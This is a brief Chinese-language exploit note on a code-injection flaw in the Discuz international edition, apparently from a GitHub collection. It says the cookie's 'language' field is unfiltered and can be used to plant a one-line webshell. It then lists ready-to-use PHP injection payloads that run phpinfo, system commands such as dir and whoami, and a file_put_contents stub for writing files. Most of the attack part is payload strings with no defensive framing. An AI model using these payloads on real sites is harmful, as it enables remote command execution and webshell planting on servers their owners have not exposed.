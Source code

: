 漏洞发生的版本为 Discuz 国际版。用户数量不多，所以影响不大

cookie 中 language字段未添加 过滤所致，可以上传一句话木马

payload

```'.phpinfo().'```

```'.system(dir).'```

```'.whoami.'```

```'.system(whoami).'```

```'.file_put_contents(,).'```
